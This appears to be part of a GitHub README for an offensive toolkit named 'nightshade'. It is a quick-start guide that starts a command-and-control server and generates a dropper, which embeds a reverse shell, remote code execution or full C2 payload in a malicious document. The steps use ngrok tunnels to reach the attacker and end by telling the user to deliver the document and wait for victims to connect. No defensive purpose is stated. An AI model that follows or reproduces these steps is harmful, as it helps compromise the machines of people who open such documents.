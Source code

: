 ```bash
ngrok config add-authtoken YOUR_AUTHTOKEN_HERE
```

##  Quick Start Guide

![image0(4)](https://github.com/user-attachments/assets/c78643f2-a867-45b4-b799-15580d8447ef)

### Option A: Reverse Shell T(Easiest Setup)

1. **Start C2 Server:**
   ```bash
   python3 nightshade_staging.py
   # Server starts on port 8080, reverse shell handler on port 4444
   ```

2. **Generate Dropper in seperate terminal:**
   ```bash
   python3 nightshade_dropper.py
   ```
   - Choose payload: `1` (Reverse Shell)
   - Use default IP/port or enter your public IP
   - Choose delivery: `1` (Ngrok tunneling)

3. **The tool AUTOMATICALLY:**
   - Starts ngrok TCP tunnel for port 4444
   - Configures payload with correct ngrok address
   - Generates your malicious document

4. **Deliver the document and wait for connections!**

### Option B: RCE/Full C2 (HTTP-Based)

1. **Start C2 Server:**
   ```bash
   python3 nightshade_staging.py
   ```

2. **Start Ngrok HTTP Tunnel:**
   ```bash
   ngrok http 8080
   ```

3. **Generate Dropper:**
   ```bash
   python3 nightshade_dropper.py
   ```
   - Choose payload: `2` (RCE) or `3` (Full C2)
   - Choose delivery: `1` (Ngrok tunneling)

4. **The tool AUTOMATICALLY detects your ngrok URL and configures the payload!**

## Detailed Usage

![image2](https://github.com/user-attachments/assets/5098827f-af8f-477f-94a1-6459130ac8df)
